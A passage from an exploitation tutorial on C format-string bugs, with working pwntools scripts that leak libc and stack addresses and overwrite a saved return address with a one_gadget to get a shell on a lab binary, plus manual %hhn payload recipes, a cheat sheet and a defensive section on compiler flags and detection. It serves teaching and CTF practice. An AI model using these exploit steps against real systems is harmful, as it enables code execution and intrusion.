payload  = payload.ljust(SOME_MULT, b'a')     # pad so addresses land on clean slots
payload += p32(A+2) + p32(A+3) + p32(A+1) + p32(A+0)
```

The subtle part is that **the address block at the tail also contributes to the argument indices** you cite in `%7$hhn` etc. — the addresses must sit at exactly offsets 7,8,9,10 counted from the format string's argument base. This chicken-and-egg (payload length affects offsets, offsets affect payload) is *exactly* the tedium `fmtstr_payload` removes. When your hand-built payload writes the wrong bytes, dump it and single-step:

```text
pwndbg> break printf
pwndbg> run
pwndbg> telescope $rsp 16      # confirm A+2,A+3,A+1,A+0 sit where %7..%10 will read
pwndbg> finish                 # let printf run
pwndbg> x/wx 0x0804a018        # did A now hold 0x080491b6?
0x804a018: 0x080491b6           # success
```

The mental checklist for any manual write:

1. Split the value into bytes (as many `%hhn` writes as bytes to change).
2. Sort by ascending byte value; incremental pad = `this_byte - prev_byte` (mod 256, add 256 if it wraps).
3. Point each `%hhn` at consecutive target addresses (`A, A+1, ...`) placed at known argument offsets.
4. Align the tail address block so those offsets are exact.
5. Verify in a debugger before trusting it against a remote.

**64-bit note:** the same procedure applies but each address is 8 bytes and the `%hhn` count still only ever needs to reach ≤255 per byte, so a full 6-significant-byte 64-bit write is 6 `%hhn`s. Because addresses contain `00` bytes, keep the address block *after* all format directives (a `00` mid-format truncates parsing).

---

## Part 9c: 32-bit vs 64-bit — Why Tutorials Feel "Off"

Most classic format-string tutorials are 32-bit, and porting their numbers to a modern 64-bit target is where people get stuck. The differences are mechanical but decisive:

| Aspect | x86 (32-bit) | x86-64 (SysV) |
|---|---|---|
| Where args live | **all on the stack** | first 5 conversions in `rsi,rdx,rcx,r8,r9`, then stack |
| First stack-reading conversion | `%1$x` (immediately) | `~%6$p` |
| Address size in payload | 4 bytes (`p32`) | 8 bytes (`p64`, contains `00`) |
| `%n` writes | 4-byte int | 4-byte int (use `%hhn` × more bytes) |
| Payload with embedded NUL | rare (addresses `0x08...`) | common (addresses `0x0000_5555...`) |

The **embedded-NUL problem** is the big 64-bit gotcha: a 64-bit address like `0x00005555_55554018` has leading `00` bytes. If you put that address *inside* the format directives, `printf` stops at the NUL and your later `%hhn`s never fire. The fix that pwntools uses and you must replicate by hand: **put all `%...$hhn` directives first (referencing high argument indices), then the address block at the very tail**, so no NUL ever interrupts specifier parsing. This single rule resolves most "works on 32-bit, silently fails on 64-bit" confusion.

Second gotcha: on 64-bit, the register-argument shift means your *first controllable stack slot* is around the 6th conversion — so your input buffer, if it's the first thing on the stack after the saved registers, might echo at `%6$p`…`%10$p` depending on frame layout. Never assume; probe.

---

## Part 9d: Lab C — Full RELRO: `%n`-Write a one_gadget onto the Saved Return Address

The most impressive single-bug format-string exploit: a looping `printf(user)` under **Full RELRO + PIE + NX**, no overflow, no other bug. We use the *read* primitive to leak libc and a stack address, then the *write* primitive to stamp a `one_gadget` over the function's saved return address.

### Program

```c
// full.c — gcc -O1 -fstack-protector-strong -pie -fPIE \
//               -Wl,-z,relro,-z,now -o full full.c   (FULL RELRO)
#include <stdio.h>
void vuln(){
    char buf[256];
    fgets(buf, sizeof buf, stdin);
    printf(buf);          // FORMAT STRING BUG (single call, but vuln() is called in a loop)
}
int main(){ setvbuf(stdout,0,2,0); for(;;) vuln(); }
```

### Step 1 — leak libc and a stack pointer

```python
#!/usr/bin/env python3
from pwn import *
elf  = context.binary = ELF('./full')
libc = ELF('./libc.so.6')
p = process('./full')

def send(fmt): p.sendline(fmt); return p.recvline()

# probe: %6..%40 to map the stack; find a libc ret-addr slot and a stack-ptr slot
libc.address = int(send(b'%21$p').strip(), 16) - 0x29d90     # __libc_start_call_main+off
stack_leak   = int(send(b'%6$p').strip(),  16)               # some stack address
log.success('libc base = %#x', libc.address)
log.success('stack leak = %#x', stack_leak)
assert libc.address & 0xfff == 0
```

### Step 2 — compute the saved-RIP address and the one_gadget

```python
# From gdb (ASLR off), we measured: saved RIP of vuln() sits at  stack_leak + 0x118
saved_rip = stack_leak + 0x118
og = libc.address + 0xe3afe        # a one_gadget offset satisfying [rsp+0x50]==NULL etc.
log.info('overwrite %#x  with one_gadget %#x', saved_rip, og)
```

`one_gadget ./libc.so.6` gave several candidates; we pick the one whose constraints (`rbp`/`rsp` slots NULL) hold at `vuln`'s return. If the first crashes, try the next — this is normal.

### Step 3 — write the one_gadget with `fmtstr_payload`, then return

```python
# our input offset (where buf lands) was found to be 6
payload = fmtstr_payload(6, {saved_rip: og}, write_size='byte')
assert len(payload) < 256, "payload must fit buf[256]"
p.sendline(payload)          # this printf performs the byte-wise %hhn writes
# vuln() now returns straight into the one_gadget -> execve('/bin/sh')
p.interactive()
```

Annotated run:

```
[+] libc base  = 0x7f4c11a00000
[+] stack leak = 0x7ffe9a3c21f0
[*] overwrite 0x7ffe9a3c2308 with one_gadget 0x7f4c11ae3afe
[*] Sending fmtstr payload (offset=6, byte writes to 0x7ffe9a3c2308..+5)
[*] Switching to interactive mode
$ id
uid=1000(kali) gid=1000(kali)
$ cat flag.txt
flag{fmtstr_only_full_relro_onegadget}
```

**Why this beats Full RELRO:** we never touched the (read-only) GOT. The write went to a **stack** location — the saved return address — which RELRO does not protect. The whole exploit is *one* format-string bug providing *both* the leak (libc + stack) and the write. Note the two fragilities: the `stack_leak + 0x118` offset must be measured on the exact build, and the one_gadget constraint must hold at return — expect to try 2–3 gadgets. This is the highest-value pattern to internalise, because it works against the strongest common mitigation set with a single primitive.



---

## Part 10: The Stack-vs-Register Offset, Carefully

The number-one source of failed format-string exploits is an off-by-one (or off-by-six) in the argument offset. Nail the model:

- On x86-64, conversions 1–5 consume `rsi, rdx, rcx, r8, r9`. Conversion **6** is the first that reads `[rsp]`. But the compiler may have **spilled locals** below `rsp` or the `printf` call may sit in a frame where your buffer is a few slots deeper. So the *empirical* method (send `AAAAAAAA %N$p` and find which N echoes it) always beats theory.
- Your **input buffer's position** as a positional argument is what `%s`/`%n` will target. If `AAAAAAAA` shows at `%10$p`, then a target address you place at the start of your payload sits at offset 10 — but only if it's 8-byte aligned. Pad the format part to a multiple of 8 before appending the address, or `%n` will read a misaligned slot.
- On **32-bit** the format string is *not* in a register (all args on the stack), so offsets are smaller and the very first `%x` already reads stack data. Many tutorials are 32-bit; translate carefully to 64-bit by adding the register-argument shift.

| Platform | First stack-reading conversion | Address placement |
|---|---|---|
| x86-64 SysV | ~6th (`%6$p`) | append at 8-byte boundary, index = your echoed offset |
| x86 (32-bit) | 1st (`%1$x`) | append at 4-byte boundary |

pwntools `FmtStr` auto-discovers this, but knowing it lets you fix the discovery when the program mangles output (buffering, truncation, filtering of `%`).

---

## Part 11: Chaining — Leak Then Write in One Interaction

Real exploits often need *both* primitives against a mitigated target: leak libc/PIE (to know `system` and where GOT is under PIE), then write. With a looping `printf(user)` (like Lab A/B) you do it in sequence. With a **single-shot** `printf(user)` you must do everything in one format string:

```python
# one-shot: leak in the SAME payload you use to prep a second-stage,
# or use %s to read a GOT entry inline while also placing a target for a follow-up.
payload  = b'%6$p|'                 # leak libc inline (printed to us)
payload += b'%8$p|'                 # leak PIE inline
# ...parse the echoes, then a SECOND connection/interaction does the %n write
```

For genuinely one-shot bugs where you cannot come back, you leak with `%p` and, if the same `printf` output is parseable before the write takes effect, combine reads and a `%n` write in a single carefully ordered string. This is advanced and fiddly; the pragmatic answer is: **prefer targets with a loop, and if single-shot, split into a leak run and a write run across two executions if the process restarts with the same ASLR (forking server) — otherwise you need the leak and write in one string.**



---

## Part 12: Does `%n` Even Work? Hardened libc Notes

Before betting an exploit on `%n`, check whether the target's libc permits it. Modern hardening can neuter the write primitive:

- **`_FORTIFY_SOURCE` (≥1):** glibc's `*_chk` variants reject `%n` when the format string is in a **writable** memory segment (as attacker input usually is). If the binary was built with `-D_FORTIFY_SOURCE=2` and calls `printf`, a `%n` from a writable buffer aborts with `*** %n in writable segment detected ***`. Your *read* primitive (`%p`/`%s`) still works — leaks are unaffected — but the write may be dead.
- **Some embedded/alternate libcs** compile out `%n` entirely.
- **`FORTIFY` does not fortify indirect calls** (`vprintf` via a function pointer) in all versions — a wrapper can slip past the `_chk` redirection, restoring `%n`.

Decision: always try a benign `%n` probe (write to a known-writable scratch address and check it changed) during recon. If `%n` is blocked, you still have the best info-leak in the business — pair it with a *different* write primitive (a stack overflow, a heap bug) rather than abandoning the format string.

```
*** %n in writable segment detected ***     <- FORTIFY killed your write; leaks still fine
```

---

## Part 12b: End-to-End Methodology — A Repeatable Recipe

Put the whole chapter into one repeatable procedure you can run against any suspected format-string target:



A concise checklist to keep beside the keyboard:

| Phase | Command / action | Success signal |
|---|---|---|
| Confirm | `echo '%p %p %p' \| ./t` | hex leaks (not literal `%p`) |
| Enumerate | `pwn checksec ./t` | know RELRO/Canary/NX/PIE |
| Offset | `AAAAAAAA %6$p..%20$p` | a slot prints `0x4141414141414141` |
| Leak | `%N$p` on libc/PIE/canary slots | plausible `0x7f..`, `0x55..`, `..00` |
| Rebase | `base = leak - offset` | `base & 0xfff == 0` |
| Probe write | `%<off>$hhn` to scratch addr | scratch byte changes |
| Write | `fmtstr_payload(off, {tgt:val})` | target memory holds `val` |
| Trigger | call GOT func / return | code execution |

If any phase fails, you stop and fix *that* phase rather than blaming the whole exploit — most "my format string doesn't work" issues are a wrong offset (Phase 3) or an unaligned/NUL-interrupted address block (Phase 7), both diagnosable in a debugger in under a minute.

**Bug-bounty / CTF relevance:** format strings are rarer in modern web-facing binaries (compilers warn) but still common in **CTF pwn**, **embedded/IoT firmware** (routers, cameras, printers where `-Wformat-security` was ignored), and **legacy C daemons**. On a hardware/firmware engagement, `printf`/`syslog`/`sprintf` with a network- or config-derived format is a top-tier finding precisely because one bug yields both leak and write — flag it as critical and demonstrate the read+write chain, not just a crash.

---

## Part 13: Detection & Defense Angle

Format strings are almost entirely preventable at build time, which makes them a satisfying defensive story.

**Compile-time elimination.** The decisive control is `-Wformat -Wformat-security -Werror=format-security`: GCC/Clang warn (and, with `-Werror`, *fail the build*) on any `printf`-family call whose format argument is not a string literal. Wire this into CI and the class largely disappears from new code:

```bash
gcc -O2 -Wall -Wformat=2 -Wformat-security -Werror=format-security \
    -D_FORTIFY_SOURCE=3 -o app app.c
# app.c:12: error: format not a string literal and no format arguments [-Werror=format-security]
```

- `-Wformat-security` catches `printf(user)` and `syslog(LOG_INFO, user)` directly.
- `-D_FORTIFY_SOURCE=2/3` blocks `%n` from writable segments at runtime as a defence-in-depth backstop for cases the warning missed (dynamic format strings).
- Static analysers (clang-tidy `clang-analyzer-security`, CodeQL's format-string queries, Coverity) flag tainted-format flows through wrappers the compiler can't see across TU boundaries.

**Correct code is trivial.** The fix is always to make the format a literal and pass user data as an argument:

```c
printf("%s", user);          // instead of printf(user)
syslog(LOG_INFO, "%s", msg); // instead of syslog(LOG_INFO, msg)
fprintf(stderr, "%s", err);  // instead of fprintf(stderr, err)
```

**Detection at runtime / in traffic.** **Blue-team usage:** inputs peppered with `%p`, `%x`, `%s`, `%n`, or `%N$` reaching a logging or `printf` sink are a strong signal — WAFs and RASP can flag conversion-specifier density in fields that should be plain text. `_FORTIFY_SOURCE`'s `*** %n in writable segment detected ***` abort is a high-fidelity IDS event: a real user never triggers it. **IR use case:** a daemon crash log containing `%n`/`%s` in the offending input, or a burst of `vprintf`/`syslog` aborts, is the fingerprint of format-string probing; pull the raw input from logs/pcap to confirm the specifier pattern. **Red-team usage:** conversely, when you *find* `%n` blocked by FORTIFY, downgrade your goal to pure info-leak and note it in the report — the leak alone often chains into a critical finding.

**Architectural:** sandbox log/parse paths with `seccomp` (deny `execve`) so even a successful `printf@GOT → system` overwrite yields a logged, blocked exec rather than a shell — the same execve-monitoring backstop from Chapter 4.

---

## Part 14: Common Pitfalls

- **Wrong offset.** Always empirically find where your input echoes (`AAAAAAAA %N$p`); do not trust a theoretical "6". Off-by-one here silently reads/writes the wrong slot.
- **Misaligned address placement.** Pad the format portion to an 8-byte boundary before appending a target address, or `%n`/`%s` reads a split slot. pwntools handles this; hand-built payloads often don't.
- **Assuming a full-word `%n`.** You cannot make `printf` output 140 trillion chars. Use byte-wise `%hhn` (or `%hn`) with sorted counts — or just `fmtstr_payload`.
- **`%s` on a pointer containing NUL bytes.** Leaked addresses have `00` bytes; `%s` stops at the first NUL and prints a truncated string. Use `%p` on already-on-stack pointers, or arrange the address without embedded NULs when possible.
- **Ignoring FORTIFY.** If `_FORTIFY_SOURCE` blocks `%n`, your write dies but your leak lives — don't conclude "format strings don't work here", conclude "the *write* is blocked".
- **Output buffering hiding leaks.** If `stdout` is fully buffered, your `%p` output may not appear until a flush/newline; the target's `setvbuf`/`\n` behaviour matters. Send a trailing newline or account for buffering.
- **Consuming your own stack cells.** Long format strings sit *on the stack themselves*; a `%N$p` with large N can read into your own buffer — useful for `%s` targeting, confusing for leaks. Know which slots are "yours".
- **Filtered `%`.** Some programs strip or reject `%`; check, and consider alternate encodings or that the sink isn't actually a format string.
- **Payload too long for the buffer.** `fmtstr_payload` with `write_size='byte'` produces long output (`%NNNc` padding). If the input buffer is small, switch to `write_size='short'` (`%hn`, fewer writes) or write fewer bytes (only the differing bytes of the target).
- **Newline injected by `fgets`/`sendline`.** `sendline` appends `\n`; if the program reads a fixed length, that newline can shift your address block by one byte. Use `send` and control the trailing bytes explicitly when alignment is tight.
- **One_gadget constraints unmet.** A jump to a one_gadget crashes if its register/stack constraints don't hold at that moment. Try each candidate; if none fit, fall back to a full `system("/bin/sh")` chain or `execve` ROP.
- **Reusing offsets across builds.** Recompiling with a different `-O` level or compiler version shifts stack layout and thus every offset. Re-derive `%N$`, the input offset, and the saved-RIP delta for each build.

**Bug-bounty note (woven, not boxed):** on firmware and legacy-daemon targets, the *report* should demonstrate the read→write chain (leak a secret, then write a benign marker to a controlled address) rather than a raw crash — triagers pay for demonstrated impact, and a format string that only crashes is often downgraded to "DoS" despite being a full RCE primitive.

---

## Part 15: Final Revision / Summary

- A format string bug is `printf(user)` — the user controls the *format*, so they control how `printf` walks memory. It is simultaneously the best **arbitrary read** and best **arbitrary write** primitive.
- **ABI:** x86-64 conversions 1–5 read `rsi,rdx,rcx,r8,r9`; the **6th** reads `[rsp]` (stack). 32-bit reads the stack from conversion 1. Use **positional `%N$`** for fixed-length, precise targeting; find "your offset" empirically with `AAAAAAAA %N$p`.
- **Read primitive:** `%p`/`%lx` dump stack words (canary, libc, PIE → defeats canary+ASLR+PIE in one line); `%s` dereferences a chosen stack slot for **arbitrary read** (e.g. a GOT entry → libc base).
- **Write primitive:** `%n` writes *chars-printed-so-far* to a pointed-at address. Use **`%hhn` byte-by-byte with sorted counts** to write real 64-bit addresses; target GOT (Partial RELRO), saved RIP, or hooks.
- **Automate** with `fmtstr_payload(offset, {addr: value}, write_size='byte')` and `FmtStr` for auto-offset + repeated writes.
- **Hardening:** `_FORTIFY_SOURCE` can block `%n` from writable segments (leak survives); `-Wformat-security -Werror` eliminates the bug at build time.
- **Workflow:** confirm the sink is `printf(user)` → find offset → leak (defeat canary/ASLR/PIE) → check `%n` works → write GOT/hook/RIP → code execution.

Memory hook: **"Read with `%p`/`%s`, write with `%hhn`, aim with `%N$`, and let `fmtstr_payload` do the byte math."**

---

## Part 16: Cheat Sheet / Quick Reference

```text
RECOGNISE
  printf(user)  syslog(LVL,user)  sprintf(buf,user)  fprintf(f,user)   -> BUG
  printf("%s",user)   -> safe

FIND YOUR OFFSET (x86-64: stack starts ~6th conversion)
  send: AAAAAAAA %6$p %7$p %8$p ... -> the %N$ that prints 0x4141414141414141 is N

READ PRIMITIVE
  %p / %lx / %llx   leak 64-bit stack word (canary=ends 00, libc=0x7f.., pie=0x55..)
  %N$s              arbitrary read: deref stack slot N as pointer, print string
  base = leak - known_offset   (assert base & 0xfff == 0)

WRITE PRIMITIVE
  %n   write (int)  chars-so-far -> *ptr        (blocked by FORTIFY in writable seg)
  %hn  write (short)   ; %hhn write (byte) <- use this
  %NNNc  pad counter to NNN chars before a %hhn
  byte-by-byte: split target into bytes, sort ascending, %pad + %hhn per byte

PWNTOOLS
  payload = fmtstr_payload(offset, {elf.got['printf']: system}, write_size='byte')
  fmt = FmtStr(execute_fmt=send); fmt.write(addr,data); fmt.execute_writes()

TARGETS (arbitrary write -> control flow)
  printf@GOT/exit@GOT  (Partial RELRO)   __free_hook/__malloc_hook (glibc<2.34)
  saved return address (need stack leak)  _IO_FILE vtable / exit handlers (Full RELRO)

DEBUG
  pwndbg> break printf ; run ; telescope $rsp 12   # find your marker slot
```

---

## Part 17: Practice Labs & Resources

- **picoCTF — `Stonks`, `flag_leak`, `Format string 0/1/2/3`:** the canonical beginner-to-intermediate ladder: leak the flag off the stack, then `%n`-overwrite a variable, then a GOT entry. Do all of them.
- **PortSwigger/pwn.college — "Format Strings" module (pwn.college):** structured levels for offset discovery, `%s` arbitrary read, and `%hhn` GOT overwrite with and without PIE — the best drilling for this chapter.
- **ROP Emporium — `fluff`/`write4` (write-primitive practice)** and format-string-flavoured challenges: reinforce the "arbitrary write → control flow" step.
- **HackTheBox pwn (e.g. *Little Tommy*, *You know 0xDiablos*-style, format-string boxes):** realistic looping `printf(user)` services where you leak then GOT-overwrite to `system`.
- **`fmtstr_payload` docs + source (pwntools):** read how it sorts bytes and emits `%hhn`; the fastest way to internalise the byte-math is to print `fmtstr_payload(...)` and decode it by hand.
- **exploit.education (Phoenix / Format series):** a graduated set of format-string levels from "print the flag" to arbitrary write, with source provided — ideal for cementing the offset and `%n` mechanics before tackling stripped binaries.
- **`how2heap` + Nightmare (guyinatuxedo) writeups:** for the Full-RELRO pivots referenced in Part 6c (`__free_hook`, `_IO_FILE`/FSOP, exit handlers) that a format-string write can target when the GOT is read-only.
- **Real firmware practice:** extract a router/IoT firmware image with `binwalk`, find `syslog`/`sprintf` calls on config- or network-derived strings in the extracted binaries, and reason about which would be reachable — the closest thing to a real-world format-string hunt.
- **Build-your-own:** compile `leak.c` at `_FORTIFY_SOURCE=0` vs `=2` and confirm `%n` works then dies while `%p` always works — makes the FORTIFY boundary concrete. Then flip Partial↔Full RELRO and watch the GOT overwrite succeed then segfault.

### Self-built practice matrix

The single best exercise is to compile one vulnerable program and re-exploit it under every mitigation permutation, watching which primitive survives. Build this matrix yourself:

| Build flags | GOT overwrite? | `%n` write? | Read primitive? | Intended path |
|---|---|---|---|---|
| `-no-pie -z norelro -D_FORTIFY_SOURCE=0` | yes | yes | yes | printf@GOT → system (easiest) |
| `-no-pie` (Partial RELRO default) | yes | yes | yes | printf@GOT → system |
| `-pie -Wl,-z,relro,-z,now` (Full RELRO) | **no** | yes | yes | leak stack → saved RIP → one_gadget |
| `+ -D_FORTIFY_SOURCE=2` | no | **no (writable-seg)** | yes | leak-only; needs a second write bug |
| `-m32` (32-bit, no RELRO) | yes | yes | yes (from `%1$x`) | classic 32-bit GOT overwrite |

Working top-to-bottom teaches you, viscerally, that the *read* primitive almost never dies while the *write* primitive is what the mitigations chip away at — the strategic lesson of the whole chapter.

Practice question set:

1. On x86-64, you send `%p %p %p %p %p %p` and the sixth value looks like stack memory while the first five look like register junk. Explain precisely why, referencing the SysV calling convention.
2. You want to write `0x401040` to address `0x404018`. Show the byte-by-byte `%hhn` plan (target bytes, sorted order, and the running character counts).
3. A target has Partial RELRO and a looping `printf(user)`. Describe the two-step exploit to get a shell, and name the exact GOT entry you'd overwrite and with what.
4. `_FORTIFY_SOURCE=2` is enabled and your `%n` aborts. What can you still accomplish with the bug, and what would you pair it with to regain a write?
5. Why is `%s` an *arbitrary read* while `%p` is only a *stack read*, and what must be true about the stack for your `%N$s` to read an address of your choosing?
6. You reverse a stripped binary and see `lea rax,[rbp-0x90]; mov rdi,rax; call printf@plt`. Explain why this is (or isn't) a format-string bug, and the one input probe that confirms it.
7. Under Full RELRO you have a looping `printf(user)` and can leak both a libc address and a stack address. Outline the complete exploit and explain why RELRO doesn't stop it.

**Memory hooks (mnemonics):**

- **"rdi holds the format; the sixth `%p` touches the stack."** — the x86-64 register/stack boundary.
- **"`%p` reads a slot, `%s` reads what the slot points to, `%n` writes how much you've printed."** — the three primitives in one line.
- **"Sort the bytes, pad the difference, `%hhn` each one."** — the write recipe.
- **"Addresses go at the tail; NULs never in the middle."** — the 64-bit payload-layout rule.
- **"The leak never dies; only the write gets fortified."** — the strategic takeaway.
- **"Literal format, data as argument."** — the one-line fix that eliminates the entire bug class.

The next chapter leaves the stack behind for the richest and most modern corruption target — the **heap**: chunks, bins, `tcache`, use-after-free and double-free, and how a single freed pointer becomes arbitrary write and code execution.
